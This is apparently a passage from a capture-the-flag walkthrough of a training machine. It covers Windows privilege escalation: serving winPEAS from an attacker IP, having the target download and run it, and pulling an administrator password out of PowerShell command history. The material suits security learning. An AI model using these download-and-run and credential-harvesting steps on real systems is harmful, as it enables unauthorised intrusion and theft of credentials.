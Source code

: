 If successful, you'll catch a Windows command shell on your listener.  The user flag is found on the user’s Desktop.

### 🚀 Privilege Escalation
We are in the phase of the hack in which our goal is to obtain root.  The tool winPEAS64.exe will be the tool we use to find possible escalation paths.  We will once again use the Python HTTP server to run it on the target computer.

`python3 -m http.server 80`

We’ll use wget again to have the target machine download winPEAS.

`wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe`

We can execute the binary.  So much simpler to do with the remote shell.

`PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe`

Warning:  the output is long and can feel a bit overwhelming to go through.  Below is a list to help put the output into context

🔍 What winPEAS Looks For:
- Misconfigurations that allow escalation (e.g., unquoted service paths, weak permissions)
- Service issues (e.g., services running as SYSTEM with writable binaries)
- Credential leaks in memory, files, or registry
- Token privileges (SeImpersonatePrivilege, SeDebugPrivilege, etc.)
- Auto-run executables and scheduled tasks
- AlwaysInstallElevated settings
- DLL hijacking opportunities
- Interesting files and user activity

While there are other possibilities of attack, we are working in a user account with system privileges, so the quickest path may be to check history for frequently accessed files or executed commands.  `ConsoleHost_history.txt` stands out in this regard.  It’s located in `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`.  We navigate to the folder and read the contents.

type ConsoleHost_history.txt

And behold ..... 

`net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dmln!!`

We have found the administrator password.  But how can we use this credential?  Looking back on our initial nmap scan, there’s no apparent way to take advantage of the administrator credential we found.  Here’s the rundown:

#### 🚫 No GUI or Remote Shell Access Available

| Service | Status | Notes |
|---------|--------|-------|
| **RDP (port 3389)** | ❌ Closed | Confirmed via `nmap` scan |
| **SSH** | ❌ Not applicable | Windows does not use SSH by default |
| **WinRM (5985/5986)** | ❌ Not open | So `evil-winrm` was not viable |
| **Telnet** | ❌ Not enabled | Not a common vector in modern boxes |

---